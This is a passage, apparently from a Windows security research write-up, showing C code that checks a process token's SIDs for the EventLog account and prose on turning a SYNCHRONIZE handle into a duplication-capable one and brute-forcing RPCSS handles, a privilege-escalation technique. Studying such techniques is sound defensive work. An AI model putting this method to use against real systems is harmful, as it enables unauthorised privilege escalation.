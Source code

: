 ```c
		WCHAR domainname[MAX_NAME] = { 0x00 };
		SID_NAME_USE sidtype = { 0x00 };
		DWORD dwSizeUserName = sizeof(username);
		DWORD dwSizeDomainName = sizeof(domainname);


		dwSuccess = ConvertSidToStringSidW(pSID, &psidString);
		if (dwSuccess == FAIL) {
			continue;
		}
		if (psidString == NULL) {
			printf("[-] Got no SID\n");
			continue;
		}

		

		dwSuccess = LookupAccountSid(NULL, pSID, username, &dwSizeUserName, domainname, &dwSizeDomainName, &sidtype);
		if (dwSuccess == FAIL) {
			if (ERROR_NONE_MAPPED != GetLastError()) {
				//Mapping is some times not possible
				printf("[-] Could not Lookup SID\n");
			}		
			continue;
		}
		dwSuccess = FAIL;
		if (lstrcmpW(username, L"EventLog") == 0) {
			dwSuccess = SUCCESS;
			goto exit;
		}

	}

exit:
	if (pTokenGroups) {
		VirtualFree(pTokenGroups, 0, MEM_RELEASE);
	}
	
	return dwSuccess;


}
```


After a lot of tries we have an valid EventLog process token and we are able to elevate a *SYNCHRONIZE* handle to *PROCESS_QUERY_INFORMATION* | *PROCESS_DUP_HANDLE* if we get the right *SYNCHRONIZE* handle of the EventLog Process.


For the bruteforce we either have to duplicate all RPCSs *SYNCHRONIZE* handles at once or step through them one by one.
